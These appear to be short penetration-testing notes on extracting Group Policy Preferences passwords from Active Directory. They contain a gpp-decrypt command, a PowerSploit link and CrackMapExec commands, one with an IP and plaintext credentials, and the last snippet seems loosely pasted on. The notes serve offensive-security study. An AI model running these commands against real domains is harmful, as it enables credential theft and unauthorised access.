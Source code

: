 # Group Policy Preferences (GPP)

* GROUPS.XML - Patched in 2014, still able to find domains where this exists
* cpassword - AES encrypted but they can be decrypted with Microsofts private key

```
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

* Find GPP Passwords
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

### CRACKMAPEXEC

```
crackmapexec smb -L | grep gpp
```

* Using CrackMapExec's gpp\_autologin Module

```
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

Remove-GPLink -Name "MGMTTestGPO" -Target "CN=Default-First-Site-Name,cn=Sites,CN=Configuration,DC=MGMT,DC=EVERGREENHEALTH,DC=SYS"
```
